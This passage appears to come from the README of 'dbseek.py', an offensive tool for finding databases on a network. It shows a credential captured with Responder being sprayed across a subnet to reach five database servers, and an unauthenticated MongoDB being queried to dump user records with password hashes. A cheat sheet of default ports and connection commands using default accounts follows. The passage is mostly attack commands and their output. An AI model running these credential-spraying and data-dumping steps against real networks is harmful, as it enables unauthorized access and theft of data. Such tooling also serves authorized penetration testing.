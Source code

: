 ### Example 2: Responder + DbSeek
```bash
# Responder captures MSSQL credential
[MSSQL] CORP\svc-sql:SQLPass2023!

# Test across network
$ ./dbseek.py -u svc-sql -p SQLPass2023! -v -e
[CRITICAL] 10.0.10.50 - MSSQL (sysadmin)
[CRITICAL] 10.0.10.51 - MSSQL (sysadmin)
[CRITICAL] 10.0.10.52 - MSSQL (sysadmin)
[CRITICAL] 10.0.10.53 - MySQL
[CRITICAL] 10.0.10.54 - PostgreSQL

Impact: 5 database servers from single credential
```

### Example 3: MongoDB No Auth
```bash
$ ./dbseek.py -e
[CRITICAL] 192.168.1.52 (mongo-dev) - MongoDB
    ⚠ MongoDB no authentication required
    📊 Databases: admin, config, app_db, user_db, financial

$ mongo --host 192.168.1.52
> use user_db
> db.users.find()
{ "_id": 1, "username": "admin", "password": "5f4dcc3b..." }

Impact: Complete database access
```

## Quick Reference Card

```
┌──────────────────────────────────────────────────┐
│            DBSEEK CHEAT SHEET                    │
├──────────────────────────────────────────────────┤
│ DATABASES                                        │
│  MySQL (3306)        MariaDB, MySQL              │
│  PostgreSQL (5432)   PostgreSQL                  │
│  MSSQL (1433)        Microsoft SQL Server        │
│  MongoDB (27017)     NoSQL document database     │
│  Redis (6379)        In-memory key-value store   │
│  Oracle (1521/1522)  Oracle Database             │
│  Elasticsearch (9200) Search engine              │
├──────────────────────────────────────────────────┤
│ COMMON COMMANDS                                  │
│  Discovery:      ./dbseek.py                     │
│  Test creds:     ./dbseek.py -t                  │
│  Custom creds:   ./dbseek.py -u user -p pass     │
│  Enumerate:      ./dbseek.py -u user -p pass -e  │
├──────────────────────────────────────────────────┤
│ MANUAL CONNECTIONS                               │
│  MySQL:   mysql -h IP -u root -p                 │
│  Postgres: psql -h IP -U postgres                │
│  MSSQL:   sqlcmd -S IP -U sa -P password         │
│  MongoDB: mongo --host IP -u admin -p pass       │
│  Redis:   redis-cli -h IP -a password            │
└──────────────────────────────────────────────────┘
```

